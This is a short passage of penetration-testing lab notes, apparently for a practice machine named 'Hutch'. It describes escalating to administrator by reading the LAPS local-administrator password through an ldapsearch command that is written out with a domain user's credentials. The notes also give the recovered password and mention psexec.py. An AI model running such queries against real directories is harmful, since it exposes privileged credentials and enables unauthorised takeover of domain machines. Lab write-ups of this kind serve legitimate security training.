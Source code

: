 ![](Images/Pasted%20image%2020221019012502.png)

![](Images/Pasted%20image%2020221019012617.png)
#LAPS #LocalAdministratorPasswordSolution


## Privilege Escalation vector
Retrieved administrator password by performing an ldapsearch query which led to logging in as administrator utilizing psexec.py

To escalate privileges, an LDAP search was performed to retrieve the local administrator password: ldapsearch -x -H 'ldap://192.168.142.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd. The search revealed the administrator password as ",G4$4Yk-2n&x(]".
